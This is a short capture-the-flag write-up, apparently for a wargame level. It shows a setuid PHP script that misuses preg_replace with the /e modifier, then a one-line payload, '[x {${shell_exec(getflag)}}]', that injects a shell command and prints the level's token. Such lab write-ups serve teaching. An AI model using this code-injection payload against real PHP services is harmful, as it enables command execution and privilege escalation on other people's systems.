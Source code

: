 ```sh
$> ls -l ~
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

`level06.php:`

```php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m); // replace dots with x
	$m = preg_replace("/@/", " y", $m);   // replace @ with y
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);

	// '/e' is deprecated in php > 5
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // replace [x ...] with y(...)
	$a = preg_replace("/\[/", "(", $a);                     // replace [ with (
	$a = preg_replace("/\]/", ")", $a);                     // replace ] with )
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
```

We can exploit the fact that we can execute a command thanks to the deprecated `eval()` function in the regex.

```sh
$> echo '[x {${shell_exec(getflag)}}]' > /tmp/tst; ./level06 /tmp/tst nth
[...]
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
````
